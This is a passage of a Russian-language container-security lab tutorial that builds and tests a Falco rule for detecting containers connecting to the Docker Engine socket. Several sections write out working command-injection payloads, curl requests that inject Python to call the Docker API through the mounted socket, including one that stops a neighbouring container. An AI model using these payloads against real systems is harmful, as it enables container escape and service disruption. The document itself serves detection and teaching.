Поэтому условие временного правила намеренно не фильтрует `fd.name` по `/var/run/docker.sock`. Если добавить такое ограничение заранее, правило может пропустить тот же самый Docker API-вызов на текущем ядре. В лаборатории более надёжным признаком является сочетание контейнера, типа Unix-сокета и успешного `connect`.

В поле `process` и `parent` оба раза отображается `python`. Первый процесс — Python-код, запущенный через командную инъекцию, второй — само веб-приложение. Оболочка `/bin/sh` могла заменить себя последней командой через `execve`, поэтому постоянной цепочки `python → sh → python` ожидать нельзя. Это ещё раз показывает, почему правило не должно зависеть от фиксированной глубины дерева процессов.


## Просмотр события в Kibana

Falco записывает уведомление в журнал сразу после срабатывания правила, а Falcosidekick передаёт его в Elasticsearch асинхронно. Поэтому сначала проверим количество документов, а затем выведем последнее событие. В запросах используется поле `rule.keyword`, потому что имя правила должно сравниваться целиком.

Falcosidekick с включённым `ELASTICSEARCH_FLATTENFIELDS` заменяет точки в именах полей на подчёркивания. Поэтому в Elasticsearch используются `output_fields.fd_name` и `output_fields.proc_name`, тогда как в локальном JSON-выводе Falco им соответствуют `fd.name` и `proc.name`. Это различие относится только к представлению документа и не меняет само событие ядра.

В `Discover` выберем представление `Falco events`, установим интервал времени, включающий запрос `_ping`, и применим фильтр KQL:

~~~text
rule : "Laboratory container connected to Docker Unix socket"
and output_fields.container_name : "lab-docker-socket"
~~~

Получаем 1 документ:



<details>
<summary>Развернуть событие</summary>

  ```bash
{
  "_index": "falco-2026.10.18",
  "_id": "9CHeT6EBYHixhDuTn-5f",
  "_version": 1,
  "_source": {
    "uuid": "972afa28-cde5-4940-b331-597ca2b04055",
    "output": "16:35:52.253168627: Notice Laboratory container connected to Unix socket | evt_type=connect result=SUCCESS fd_name=ffff8aa406891800->ffff8aa406890c00 /run/docker.sock fd_type=u process=python proc_exepath=/usr/local/bin/python3.13 parent=python grandparent=docker-init command=python -c import socket; s=socket.socket(socket.AF_UNIX); s.connect(\"/var/run/docker.sock\"); s.sendall(b\"GET /_ping HTTP/1.0\\r\\nHost:docker\\r\\nConnection: close\\r\\n\\r\\n\"); print(s.recv(1024).decode()) user=lab user_uid=10001 container_id=5abfd382de7c container_name=lab-docker-socket container_id=5abfd382de7c container_name=lab-docker-socket container_image_repository=container-security-lab/control-center container_image_tag=1.0-vulnerable k8s_pod_name=<NA> k8s_ns_name=<NA>",
    "priority": "Notice",
    "rule": "Laboratory container connected to Docker Unix socket",
    "time": "2026-10-18T16:35:52.253168627Z",
    "output_fields": {
      "container_id": "5abfd382de7c",
      "container_image_repository": "container-security-lab/control-center",
      "container_image_tag": "1.0-vulnerable",
      "container_name": "lab-docker-socket",
      "evt_res": "SUCCESS",
      "evt_time": 1792341352253168600,
      "evt_type": "connect",
      "fd_name": "ffff8aa406891800->ffff8aa406890c00 /run/docker.sock",
      "fd_typechar": "u",
      "k8s_ns_name": null,
      "k8s_pod_name": null,
      "proc_aname[2]": "docker-init",
      "proc_cmdline": "python -c import socket; s=socket.socket(socket.AF_UNIX); s.connect(\"/var/run/docker.sock\"); s.sendall(b\"GET /_ping HTTP/1.0\\r\\nHost:docker\\r\\nConnection: close\\r\\n\\r\\n\"); print(s.recv(1024).decode())",
      "proc_exepath": "/usr/local/bin/python3.13",
      "proc_name": "python",
      "proc_pname": "python",
      "user_name": "lab",
      "user_uid": 10001
    },
    "source": "syscall",
    "tags": [
      "T1609",
      "container",
      "docker_socket",
      "lab_observation",
      "mitre_execution",
      "unix_socket"
    ],
    "hostname": "scrockcontainers",
    "@timestamp": "2026-10-18T16:35:52.253168627Z"
  },
  "fields": {
    "output_fields.container_name.keyword": [
      "lab-docker-socket"
    ],
    "output_fields.proc_name": [
      "python"
    ],
    "output_fields.container_image_tag.keyword": [
      "1.0-vulnerable"
    ],
    "output_fields.evt_res": [
      "SUCCESS"
    ],
    "tags.keyword": [
      "T1609",
      "container",
      "docker_socket",
      "lab_observation",
      "mitre_execution",
      "unix_socket"
    ],
    "output_fields.proc_aname[2]": [
      "docker-init"
    ],
    "rule": [
      "Laboratory container connected to Docker Unix socket"
    ],
    "output_fields.evt_time": [
      1792341352253168600
    ],
    "uuid.keyword": [
      "972afa28-cde5-4940-b331-597ca2b04055"
    ],
    "output_fields.proc_pname": [
      "python"
    ],
    "source": [
      "syscall"
    ],
    "output_fields.evt_type.keyword": [
      "connect"
    ],
    "output_fields.proc_exepath": [
      "/usr/local/bin/python3.13"
    ],
    "uuid": [
      "972afa28-cde5-4940-b331-597ca2b04055"
    ],
    "output_fields.proc_aname[2].keyword": [
      "docker-init"
    ],
    "output": [
      "16:35:52.253168627: Notice Laboratory container connected to Unix socket | evt_type=connect result=SUCCESS fd_name=ffff8aa406891800->ffff8aa406890c00 /run/docker.sock fd_type=u process=python proc_exepath=/usr/local/bin/python3.13 parent=python grandparent=docker-init command=python -c import socket; s=socket.socket(socket.AF_UNIX); s.connect(\"/var/run/docker.sock\"); s.sendall(b\"GET /_ping HTTP/1.0\\r\\nHost:docker\\r\\nConnection: close\\r\\n\\r\\n\"); print(s.recv(1024).decode()) user=lab user_uid=10001 container_id=5abfd382de7c container_name=lab-docker-socket container_id=5abfd382de7c container_name=lab-docker-socket container_image_repository=container-security-lab/control-center container_image_tag=1.0-vulnerable k8s_pod_name=<NA> k8s_ns_name=<NA>"
    ],
    "output_fields.proc_exepath.keyword": [
      "/usr/local/bin/python3.13"
    ],
    "output_fields.user_uid.keyword": [
      "10001"
    ],
    "hostname": [
      "scrockcontainers"
    ],
    "output_fields.container_image_repository": [
      "container-security-lab/control-center"
    ],
    "output_fields.container_id.keyword": [
      "5abfd382de7c"
    ],
    "output_fields.container_image_repository.keyword": [
      "container-security-lab/control-center"
    ],
    "output_fields.proc_cmdline": [
      "python -c import socket; s=socket.socket(socket.AF_UNIX); s.connect(\"/var/run/docker.sock\"); s.sendall(b\"GET /_ping HTTP/1.0\\r\\nHost:docker\\r\\nConnection: close\\r\\n\\r\\n\"); print(s.recv(1024).decode())"
    ],
    "output_fields.container_name": [
      "lab-docker-socket"
    ],
    "output_fields.proc_pname.keyword": [
      "python"
    ],
    "source.keyword": [
      "syscall"
    ],
    "output_fields.proc_cmdline.keyword": [
      "python -c import socket; s=socket.socket(socket.AF_UNIX); s.connect(\"/var/run/docker.sock\"); s.sendall(b\"GET /_ping HTTP/1.0\\r\\nHost:docker\\r\\nConnection: close\\r\\n\\r\\n\"); print(s.recv(1024).decode())"
    ],
    "priority.keyword": [
      "Notice"
    ],
    "output_fields.fd_typechar.keyword": [
      "u"
    ],
    "output_fields.fd_typechar": [
      "u"
    ],
    "output_fields.container_image_tag": [
      "1.0-vulnerable"
    ],
    "output_fields.evt_type": [
      "connect"
    ],
    "output_fields.user_uid": [
      "10001"
    ],
    "output.keyword": [
      "16:35:52.253168627: Notice Laboratory container connected to Unix socket | evt_type=connect result=SUCCESS fd_name=ffff8aa406891800->ffff8aa406890c00 /run/docker.sock fd_type=u process=python proc_exepath=/usr/local/bin/python3.13 parent=python grandparent=docker-init command=python -c import socket; s=socket.socket(socket.AF_UNIX); s.connect(\"/var/run/docker.sock\"); s.sendall(b\"GET /_ping HTTP/1.0\\r\\nHost:docker\\r\\nConnection: close\\r\\n\\r\\n\"); print(s.recv(1024).decode()) user=lab user_uid=10001 container_id=5abfd382de7c container_name=lab-docker-socket container_id=5abfd382de7c container_name=lab-docker-socket container_image_repository=container-security-lab/control-center container_image_tag=1.0-vulnerable k8s_pod_name=<NA> k8s_ns_name=<NA>"
    ],
    "priority": [
      "Notice"
    ],
    "output_fields.fd_name": [
      "ffff8aa406891800->ffff8aa406890c00 /run/docker.sock"
    ],
    "tags": [
      "T1609",
      "container",
      "docker_socket",
      "lab_observation",
      "mitre_execution",
      "unix_socket"
    ],
    "output_fields.container_id": [
      "5abfd382de7c"
    ],
    "@timestamp": [
      "2026-10-18T16:35:52.253Z"
    ],
    "output_fields.user_name.keyword": [
      "lab"
    ],
    "output_fields.evt_res.keyword": [
      "SUCCESS"
    ],
    "output_fields.fd_name.keyword": [
      "ffff8aa406891800->ffff8aa406890c00 /run/docker.sock"
    ],
    "output_fields.user_name": [
      "lab"
    ],
    "time": [
      "2026-10-18T16:35:52.253Z"
    ],
    "hostname.keyword": [
      "scrockcontainers"
    ],
    "output_fields.proc_name.keyword": [
      "python"
    ],
    "rule.keyword": [
      "Laboratory container connected to Docker Unix socket"
    ]
  }
}
```

</details>

Главный вывод на этом этапе - событие подтверждает успешное подключение процесса из контейнера к Unix-сокету, но ещё не показывает, какой HTTP-метод Docker API был отправлен. Для этого нужны либо аргументы процесса, либо независимое событие Docker Engine. Поэтому сообщение временного правила не будем называть доказательством остановки или создания контейнера.

## Безопасный запрос к Docker API

Перед изменением состояния второго контейнера выполним безопасную проверку `/_ping`. Docker Engine использует этот endpoint для проверки доступности API. Он возвращает `OK` и не создаёт, не останавливает и не изменяет контейнеры.

Повторим запрос `_ping` через уязвимое приложение:

~~~bash
curl --fail --silent --show-error --get --data-urlencode 'host=127.0.0.1; python -c '\''import socket;s=socket.socket(1);s.settimeout(3);s.connect("/var/run/docker.sock");r=bytes([13,10]);s.sendall(b"GET /_ping HTTP/1.0"+r+b"Host:docker"+r+b"Content-Length: 0"+r+r);s.shutdown(1);print(s.recv(1024).decode())'\''' 'http://127.0.0.1:8080/api/ping' | jq
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
{
  "variant": "docker-socket-vulnerable",
  "input": "127.0.0.1; python -c 'import socket;s=socket.socket(1);s.settimeout(3);s.connect(\"/var/run/docker.sock\");r=bytes([13,10]);s.sendall(b\"GET /_ping HTTP/1.0\"+r+b\"Host:docker\"+r+b\"Content-Length: 0\"+r+r);s.shutdown(1);print(s.recv(1024).decode())'",               
  "command": "/bin/ping -c 1 -W 1 127.0.0.1; python -c 'import socket;s=socket.socket(1);s.settimeout(3);s.connect(\"/var/run/docker.sock\");r=bytes([13,10]);s.sendall(b\"GET /_ping HTTP/1.0\"+r+b\"Host:docker\"+r+b\"Content-Length: 0\"+r+r);s.shutdown(1);print(s.recv(1024).decode())'",                                                                                                                                     
  "returncode": 0,
  "stdout": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.142 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.142/0.142/0.142 ms\nHTTP/1.0 200 OK\nApi-Version: 1.56\nBuilder-Version: 2\nCache-Control: no-cache, no-store, must-revalidate\nDocker-Experimental: false\nOstype: linux\nPragma: no-cache\nServer: Docker/29.9.1 (linux)\nSwarm: inactive\nDate: Sun, 18 Oct 2026 17:02:33 GMT\nContent-Length: 2\nContent-Type: text/plain; charset=utf-8\n\nOK\n",                                                                                                                              
  "stderr": ""
}
```

</details>


В поле `stdout` должен присутствовать ответ Docker Engine, содержащий `OK`. После этого снова проверим целевой контейнер:

~~~bash
curl --fail --silent --show-error http://127.0.0.1:8090/api/status | jq
~~~

<details>
<summary>Развернуть вывод команды</summary>

  ```bash
{
  "status": "running",
  "container": "lab-docker-target",
  "uptime": 3215.1
}
```

</details>

Страница и endpoint должны остаться доступными. В Elasticsearch при этом появится ещё одно уведомление того же временного правила. Мы доказали сам факт обращения к Docker API и одновременно показали, что безопасный метод `/_ping` не меняет состояние соседнего сервиса.

## Подготовка к проверке воздействия

Теперь зафиксируем время перед изменяющим запросом. Эта переменная ограничит поиск событий только текущим экспериментом и не позволит смешать его с предыдущими проверками:

~~~bash
LAB_SOCKET_IMPACT_START=$(date --iso-8601=seconds)
printf '%s\n' "$LAB_SOCKET_IMPACT_START"
~~~

Для наблюдения за Docker Engine в отдельном терминале запустим поток событий только для целевого контейнера:

~~~bash
sudo docker events --filter container=lab-docker-target --format '{{json .}}'
~~~

Команда будет ждать новые события. Оставьте этот терминал открытым и выполните следующий запрос в другом. В обычном журнале Docker должны появиться события `stop` и `die`, когда Engine остановит целевой контейнер.

## Остановка соседнего контейнера через Docker API

Перед изменяющим запросом целевой контейнер должен находиться в состоянии running. Если он уже остановлен после предыдущей попытки, сначала запустим существующий экземпляр и дождёмся ответа health endpoint:

~~~bash
sudo docker compose start target-service

until curl --fail --silent http://127.0.0.1:8090/health >/dev/null; do
  sleep 1
done

sudo docker inspect lab-docker-target \
  --format 'status={{.State.Status}} running={{.State.Running}}'
~~~

Ожидаемый результат:

~~~text
status=running running=true
~~~

Теперь отправим через уязвимое приложение короткий HTTP-запрос к Docker Engine. Команда Python запускается в фоне, а её стандартные потоки перенаправляются в /dev/null. Это сделано намеренно: обработчик Control Center ограничивает выполнение команды четырьмя секундами и может вернуть 504, если будет ждать завершения сетевого обмена с Docker API. Фоновый процесс успевает отправить запрос независимо от того, успел ли HTTP-обработчик дождаться его завершения.

~~~bash
curl --fail --silent --show-error --get \
  --data-urlencode 'host=127.0.0.1; python -c '\''import socket;s=socket.socket(1);s.settimeout(2);s.connect("/var/run/docker.sock");r=bytes([13,10]);s.sendall(b"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0"+r+r);s.shutdown(1)'\'' >/dev/null 2>&1 &' \
  'http://127.0.0.1:8080/api/ping' | jq
~~~

В HTTP-запросе используется метод POST /containers/lab-docker-target/stop?t=1. Параметр t=1 задаёт Docker Engine одну секунду на штатное завершение процесса перед принудительной остановкой. Заголовки Host и Connection в данном лабораторном запросе не нужны для маршрутизации Unix-сокета: Docker Engine принимает запрос по пути и методу, а разделитель строк формируется как bytes([13,10]).

Внешний JSON может содержать только вывод ping и код возврата оболочки. Это ожидаемо: вывод Python перенаправлен в /dev/null, чтобы фоновый процесс не удерживал канал ответа. Поэтому отсутствие текста 204 No Content в stdout не означает ошибку и не является критерием успеха. Результат проверяем по состоянию контейнера, HTTP-порту и событиям Docker.

Проверим состояние целевого контейнера:

~~~bash
sudo docker inspect lab-docker-target \
  --format 'status={{.State.Status}} running={{.State.Running}} exit={{.State.ExitCode}}'
~~~

В этой лаборатории получен следующий вывод:

~~~text
status=exited running=false exit=143
~~~

Код 143 равен 128 + 15. Число 15 - это номер сигнала SIGTERM, который Docker Engine отправляет процессу при штатной остановке. Таким образом, контейнер не был удалён и не завершился из-за ошибки образа, он получил команду остановки и завершил работу после сигнала SIGTERM.

Проверим тот же результат через опубликованный HTTP-порт:

~~~bash
curl --connect-timeout 3 \
  --max-time 5 \
  http://127.0.0.1:8090/health
~~~

Ожидается ошибка подключения:

~~~text
curl: (7) Failed to connect to 127.0.0.1 port 8090 after 0 ms: Couldn't connect to server
~~~

Три признака согласуются между собой:

- Python-процесс из lab-docker-socket отправил запрос через подключённый Unix-сокет;
- Docker Engine перевёл lab-docker-target в состояние exited;
- опубликованный порт 8090 перестал принимать соединения.

Это подтверждает не только доступ к сокету, но и реальное изменение состояния соседнего контейнера. Ошибка 504, которая могла появиться при синхронном варианте команды, относится к тайм-ауту HTTP-обработчика приложения. Она не отменяет действие Docker Engine, поэтому в подобных сценариях итог всегда проверяется независимыми командами docker inspect, curl и docker events.

## Сопоставление с журналом Docker Engine

Falco видит системный вызов connect, но не разбирает HTTP-путь, переданный после установления соединения. Чтобы доказать, что подключение привело именно к остановке lab-docker-target, сопоставим его с журналом Docker Engine.

Переменная времени, созданная в одном терминале, не обязана существовать в другом. Поэтому для воспроизводимой проверки используем фиксированное окно последних тридцати минут и фильтры Docker events по нужному контейнеру и действиям:

~~~bash
sudo docker events \
  --since '30m' \
  --filter container=lab-docker-target \
  --filter event=kill \
  --filter event=die \
  --filter event=stop \
  --format '{{json .}}'
~~~

В релевантной части вывода присутствуют события:

<details>
<summary>Развернуть события Docker Engine</summary>

~~~json
{"Type":"container","Action":"kill","Actor":{"Attributes":{"name":"lab-docker-target","signal":"15"}}}
{"Type":"container","Action":"die","Actor":{"Attributes":{"name":"lab-docker-target","exitCode":"143"}}}
{"Type":"container","Action":"stop","Actor":{"Attributes":{"name":"lab-docker-target"}}}
~~~

</details>

Полный документ Docker events также содержит идентификатор контейнера, имя Compose-проекта, образ и наносекундную метку времени. В статье достаточно выделить поля Action, name, signal и exitCode: они показывают последовательность остановки и позволяют не смешивать её с другими операциями.

В том же потоке могут встречаться события exec_create, exec_start и exec_die. Они появляются из-за healthcheck Compose: Docker запускает внутри контейнера команду Python, которая обращается к /health. Такие события не являются частью атаки. При анализе импакта их необходимо исключать фильтром event=kill, event=die, event=stop либо отделять по полю Action.

Последовательность имеет следующий смысл:

1. kill с signal=15 — Engine отправил процессу контейнера SIGTERM.
2. die с exitCode=143 — основной процесс завершился вследствие этого сигнала.
3. stop — Docker завершил операцию остановки и зафиксировал контейнер как остановленный.

## Сопоставление с событием Falco

Теперь отфильтруем журнал Falco по временному правилу наблюдения. Команду записываем без переменной из другого терминала, чтобы не получить ошибку Failed to parse timestamp из-за пустого значения:

~~~bash
sudo journalctl \
  -u falco-modern-bpf.service \
  --since '10 minutes ago' \
  --output=cat \
  --no-pager | \
  jq --raw-input --raw-output '
    fromjson?
    | select(.rule == "Laboratory container connected to Docker Unix socket")
    | [
        .time,
        .output_fields["evt.type"],
        .output_fields["evt.res"],
        .output_fields["fd.name"],
        .output_fields["fd.typechar"],
        .output_fields["proc.name"],
        .output_fields["proc.pname"],
        .output_fields["proc.cmdline"],
        .output_fields["user.uid"],
        .output_fields["container.name"]
      ]
    | @tsv
  '
~~~

Для запроса остановки получена строка:

<details>
<summary>Развернуть событие Falco</summary>

~~~text
2026-10-18T17:17:05.985193468Z  connect  SUCCESS  ffff8aa406892000->ffff8aa406891000 /run/docker.sock  u  python  docker-init  python -c import socket;s=socket.socket(1);s.settimeout(2);s.connect("/var/run/docker.sock");r=bytes([13,10]);s.sendall(b"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0"+r+r);s.shutdown(1)  10001  lab-docker-socket
~~~

</details>

Значения полей имеют следующую интерпретацию:

| Поле | Значение | Что оно доказывает |
| --- | --- | --- |
| evt.type | connect | процесс вызвал системное подключение сокета |
| evt.res | SUCCESS | подключение завершилось успешно |
| fd.typechar | u | дескриптор относится к Unix-домену |
| fd.name | содержит /run/docker.sock | Falco разрешил адрес Docker-сокета в событии |
| proc.name | python | запрос отправлен Python-кодом из инъекции |
| proc.pname | docker-init | непосредственным родителем является init-процесс контейнера |
| proc.cmdline | содержит POST /containers/lab-docker-target/stop | в командной строке виден адрес API-запроса |
| user.uid | 10001 | процесс работал от пользователя приложения |
| container.name | lab-docker-socket | источник события — управляющий контейнер |

В другом запуске поле fd.name может иметь формат ffff...->ffff... без пути. Это зависит от версии ядра и драйвера Falco. В приведённом событии путь /run/docker.sock присутствует, поэтому его можно использовать в постоянном правиле. Однако при переносе правила в другую среду сначала нужно проверить фактическое представление fd.name; жёсткий фильтр по пути может привести к пропуску событий, если драйвер не восстанавливает имя Unix-файла.

Falco и Docker events отвечают на разные вопросы. Falco подтверждает, какой процесс внутри какого контейнера открыл управляющее соединение. Docker events подтверждает, что Docker Engine после этого изменил состояние целевого контейнера. Только совместное рассмотрение связывает источник запроса и наблюдаемый импакт.

## Восстановление целевого сервиса перед настройкой правила

После фиксации импакта вернём lab-docker-target в рабочее состояние:

~~~bash
sudo docker compose start target-service

sudo docker inspect lab-docker-target --format 'status={{.State.Status}} running={{.State.Running}} health={{if .State.Health}}{{.State.Health.Status}}{{else}}none{{end}}'
~~~

Ожидается:

~~~text
status=running running=true health=healthy
~~~

Команда start запускает существующий контейнер и не меняет образ. Это позволяет повторять эксперименты с одинаковыми идентификаторами, mount-параметрами и сетевыми настройками.

## Постоянное правило Falco

Временное правило фиксирует любой успешный Unix-сокетный connect из lab-docker-socket. После получения фактического события можно сузить условие: оставить только успешное соединение, Unix-дескриптор и адрес, содержащий имя Docker-сокета. Условие по имени контейнера сохраняет правило лабораторным и не создаёт уведомления для обычных административных команд на хосте.

Сначала отключим временное правило, чтобы один запрос не создавал два похожих уведомления:

~~~bash
sudo mv /etc/falco/rules.d/03-docker-socket-observe.yaml /etc/falco/rules.d/03-docker-socket-observe.yaml.disabled
~~~

Создадим файл постоянного правила:

~~~bash
sudo vim /etc/falco/rules.d/03-docker-socket.yaml
~~~

Содержимое:

~~~yaml
- rule: Container connected to Docker Engine Unix socket
  desc: >
    Detects a successful connection from the laboratory control-center
    container to the Docker Engine Unix socket.
  condition: >
    evt.type = connect
    and evt.res = SUCCESS
    and container.id != host
    and container.name = "lab-docker-socket"
    and fd.typechar = 'u'
    and fd.name contains "docker.sock"
  output: >
    Container connected to Docker Engine Unix socket |
    evt_type=%evt.type result=%evt.res
    socket=%fd.name fd_type=%fd.typechar
    process=%proc.name proc_exepath=%proc.exepath
    parent=%proc.pname grandparent=%proc.aname[2]
    command=%proc.cmdline
    user=%user.name user_uid=%user.uid
    container_id=%container.id container_name=%container.name
  priority: WARNING
  tags:
    - container
    - docker_socket
    - unix_socket
    - mitre_execution
    - T1609
~~~

В отличие от временного правила здесь намеренно отсутствует evt.dir. В современных event sources Falco получает только exit-события системных вызовов, поэтому условие evt.dir = < помечается как устаревшее и не добавляет полезной фильтрации. Условие evt.res = SUCCESS оставляет только успешно установленные соединения и исключает неудачные попытки.

Фильтр fd.name contains docker.sock основан на фактическом событии, где Falco показал /run/docker.sock. Пути /var/run/docker.sock и /run/docker.sock обычно являются двумя именами одного сокета через символическую ссылку, поэтому проверка по имени файла должна учитывать оба варианта. Проверка по contains docker.sock охватывает оба пути и не зависит от конкретного префикса.

Проверим правило до перезапуска службы:

~~~bash
sudo falco --dry-run
echo $?
~~~

Затем перезапустим Falco:

~~~bash
sudo systemctl restart falco-modern-bpf.service
sudo systemctl --no-pager --full status falco-modern-bpf.service
~~~

Служба должна находиться в состоянии active (running). Проверим, что загружен именно постоянный файл:

~~~bash
sudo journalctl -u falco-modern-bpf.service --since '2 minutes ago' --no-pager | grep -E '03-docker-socket'
~~~

<details>
<summary>Развернуть вывод команды</summary>

~~~text
Oct 18 17:31:46 scrockcontainers falco[17371]:    /etc/falco/rules.d/03-docker-socket.yaml | schema validation: ok
Oct 18 17:31:46 scrockcontainers falco[17371]: /etc/falco/rules.d/03-docker-socket.yaml: Ok, with warnings
Oct 18 17:31:47 scrockcontainers falco[17371]:    /etc/falco/rules.d/03-docker-socket.yaml | schema validation: ok
Oct 18 17:31:47 scrockcontainers falco[17371]: /etc/falco/rules.d/03-docker-socket.yaml: Ok, with warnings
Oct 18 17:32:50 scrockcontainers falco[29995]:    /etc/falco/rules.d/03-docker-socket.yaml | schema validation: ok
Oct 18 17:32:50 scrockcontainers falco[29995]: /etc/falco/rules.d/03-docker-socket.yaml: Ok, with warnings
~~~

</details>

В журнале должен присутствовать /etc/falco/rules.d/03-docker-socket.yaml, а файл с суффиксом .yaml.disabled не должен загружаться как правило.

## Проверка постоянного правила

Проверка должна включать штатный сценарий, безопасный запрос к Docker API, изменяющий запрос и отрицательный тест с хоста. Зафиксируем время в текущем терминале, в котором будут выполняться все следующие команды:

~~~bash
LAB_SOCKET_RULE_TEST_START=$(date --iso-8601=seconds)
printf '%s\n' "$LAB_SOCKET_RULE_TEST_START"
~~~

### Штатный ping

Сначала выполним разрешённый запрос:

~~~bash
curl --fail --silent --show-error --get --data-urlencode 'host=127.0.0.1' 'http://127.0.0.1:8080/api/ping' | jq
~~~

В ответе должен быть обычный вывод /bin/ping. Приложение не открывает Docker-сокет, поэтому постоянное правило не должно создать уведомление.

### Безопасный запрос /_ping

Теперь отправим безопасный Docker API-запрос. Он только проверяет доступность Engine и не меняет состояние контейнеров:

~~~bash
curl --fail --silent --show-error --get \
  --data-urlencode 'host=127.0.0.1; python -c '\''import socket;s=socket.socket(1);s.settimeout(3);s.connect("/var/run/docker.sock");r=bytes([13,10]);s.sendall(b"GET /_ping HTTP/1.1"+r+b"Host:docker"+r+b"Content-Length: 0"+r+r);s.shutdown(1);print(s.recv(1024).decode())'\''' \
  'http://127.0.0.1:8080/api/ping' | jq
~~~

В поле stdout должен присутствовать HTTP/1.1 200 OK и строка OK. Целевой контейнер при этом должен остаться запущенным:

~~~bash
sudo docker inspect lab-docker-target --format 'status={{.State.Status}} running={{.State.Running}}'
~~~

Ожидается status=running running=true. Правило должно создать одно уведомление о connect, но Docker events не должны содержать нового stop для lab-docker-target.

### Изменяющий запрос POST /stop

Выполним запрос остановки:

~~~bash
curl --fail --silent --show-error --get \
  --data-urlencode 'host=127.0.0.1; python -c '\''import socket;s=socket.socket(1);s.settimeout(2);s.connect("/var/run/docker.sock");r=bytes([13,10]);s.sendall(b"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0"+r+r);s.shutdown(1)'\'' >/dev/null 2>&1 &' \
  'http://127.0.0.1:8080/api/ping' | jq
~~~

Через несколько секунд проверим результат:

~~~bash
sudo docker inspect lab-docker-target --format 'status={{.State.Status}} running={{.State.Running}} exit={{.State.ExitCode}}'
curl --connect-timeout 3 --max-time 5 http://127.0.0.1:8090/health
~~~

<details>
<summary>Развернуть вывод команды</summary>

~~~text
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ sudo docker inspect lab-docker-target --format 'status={{.State.Status}} running={{.State.Running}} exit={{.State.ExitCode}}'
status=exited running=false exit=143
scrock_@scrockcontainers:~/container-security-lab/scenarios/03-docker-socket$ curl --connect-timeout 3 --max-time 5 http://127.0.0.1:8090/health
curl: (7) Failed to connect to 127.0.0.1 port 8090 after 0 ms: Couldn't connect to server
~~~

</details>

Ожидается status=exited running=false, код 143 и ошибка подключения к порту 8090. Постоянное правило должно создать уведомление с fd.name, содержащим docker.sock, а Docker events — события kill, die и stop.

### Отрицательный тест с хоста

Чтобы проверить границу условия container.id != host, отправим безопасный запрос /_ping непосредственно с хостовой системы:

~~~bash
sudo curl --fail --silent --show-error --unix-socket /var/run/docker.sock http://localhost/_ping
~~~

Ожидается ответ OK, но правило Container connected to Docker Engine Unix socket не должно сработать: процесс выполняется в хостовом пространстве, для него container.id=host. Это важная проверка, потому что администраторский доступ к Docker Engine сам по себе не является событием, которое данное лабораторное правило должно классифицировать как обращение уязвимого контейнера.

После проверки вернём целевой сервис:

~~~bash
sudo docker compose start target-service
~~~

Оба контейнера должны быть Up, а lab-docker-target должен снова отвечать на /health.

## Проверка срабатываний в журнале Falco

Выведем только уведомления постоянного правила, созданные после начала тестов:

~~~bash
sudo journalctl \
  -u falco-modern-bpf.service \
  --since "$LAB_SOCKET_RULE_TEST_START" \
  --output=cat \
  --no-pager | \
  jq --raw-input --raw-output '
    fromjson?
    | select(.rule == "Container connected to Docker Engine Unix socket")
    | [
        .time,
        .output_fields["evt.type"],
        .output_fields["evt.res"],
        .output_fields["fd.name"],
        .output_fields["fd.typechar"],
        .output_fields["proc.name"],
        .output_fields["proc.pname"],
        .output_fields["proc.cmdline"],
        .output_fields["user.uid"],
        .output_fields["container.name"]
      ]
    | @tsv
  '
~~~

В приведённом выводе три строки: два события соответствуют безопасному GET /_ping, а третье — изменяющему POST /containers/lab-docker-target/stop?t=1. Два одинаковых события GET /_ping могут появиться, если безопасная проверка выполнялась повторно или запрос был отправлен ещё раз при диагностике. При одном запуске каждого сценария ожидаются две строки — одна для GET /_ping и одна для POST /stop.

Штатный запрос ping не должен создавать уведомление, потому что приложение запускает только /bin/ping и не вызывает connect для Unix-сокета. Запрос /_ping, выполненный непосредственно с хоста через sudo curl --unix-socket, также не должен попасть в это правило: для него container.id имеет значение host, а условие ограничено container.id != host. Если уведомление появилось после штатного запроса, проверьте полную команду и поле proc.cmdline. Если срабатывание произошло для административной команды хоста, проверьте в исходном JSON значение container.id.

Фактический вывод проверки:

<details>
<summary>Развернуть вывод команды</summary>

~~~text
2026-10-18T17:34:17.811957688Z  connect SUCCESS ffff8aa406890400->ffff8aa406892800 /run/docker.sock     u       python  python  python -c import socket;s=socket.socket(1);s.settimeout(3);s.connect("/var/run/docker.sock");r=bytes([13,10]);s.sendall(b"GET /_ping HTTP/1.1"+r+b"Host:docker"+r+b"Content-Length: 0"+r+r);s.shutdown(1);print(s.recv(1024).decode())  10001   lab-docker-socket
2026-10-18T17:34:42.148039162Z  connect SUCCESS ffff8aa46aeac400->ffff8aa46aead800 /run/docker.sock     u       python  python  python -c import socket;s=socket.socket(1);s.settimeout(3);s.connect("/var/run/docker.sock");r=bytes([13,10]);s.sendall(b"GET /_ping HTTP/1.1"+r+b"Host:docker"+r+b"Content-Length: 0"+r+r);s.shutdown(1);print(s.recv(1024).decode())  10001   lab-docker-socket
2026-10-18T17:35:16.535169421Z  connect SUCCESS ffff8aa55ce5d000->ffff8aa55ce5c800 /run/docker.sock     u       python  docker-init     python -c import socket;s=socket.socket(1);s.settimeout(2);s.connect("/var/run/docker.sock");r=bytes([13,10]);s.sendall(b"POST /containers/lab-docker-target/stop?t=1 HTTP/1.0"+r+r);s.shutdown(1)      10001   lab-docker-socket
~~~

</details>

В последних двух строках отличаются непосредственные родители процесса: для одного запуска Falco показал proc.pname=python, для другого — proc.pname=docker-init. Это нормальное следствие способа запуска команды и особенностей дерева процессов внутри контейнера. Родительский процесс не должен использоваться как обязательный фильтр: устойчивыми признаками здесь являются успешный connect, Unix-дескриптор, имя Docker-сокета и контейнер lab-docker-socket.

В proc.cmdline присутствует API-путь, однако это диагностическое поле, а не условие правила. Условие намеренно не ищет строку POST /stop: тот же сокет может использоваться для GET /_ping, GET /containers/json, POST /containers/create и других методов. Правило отвечает на более устойчивый вопрос: «Подключился ли процесс из этого контейнера к Docker Engine?».

## Проверка в Kibana

В Discover выберем представление Falco events, установим диапазон времени, включающий безопасный запрос и остановку контейнера, и зададим KQL:

~~~text
rule : "Container connected to Docker Engine Unix socket"
and output_fields.container_name : "lab-docker-socket"
and output_fields.evt_res : "SUCCESS"
~~~

